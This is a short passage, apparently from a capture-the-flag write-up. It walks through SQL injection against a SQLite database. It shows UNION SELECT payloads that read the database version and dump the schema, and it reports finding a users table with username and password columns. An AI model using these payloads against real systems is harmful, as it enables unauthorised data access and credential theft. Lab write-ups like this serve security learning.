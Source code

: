 Let's get the version

```sql
' UNION SELECT 1,sqlite_version(); --+
```

> 3.40.1

Okay now let's look at the tables:

```sql
' UNION SELECT 1,sql FROM sqlite_schema; --+
```

<img src="assets/website_404_leak_tables.jpg" alt="404 page leak tables" width="600px">

Nice, we now know that we have a `Xx_US3RS_xX` table that contains `ID`, `Xx_US3RNAM3_xX`'s and `Xx_PASSW0RD_xX`'s
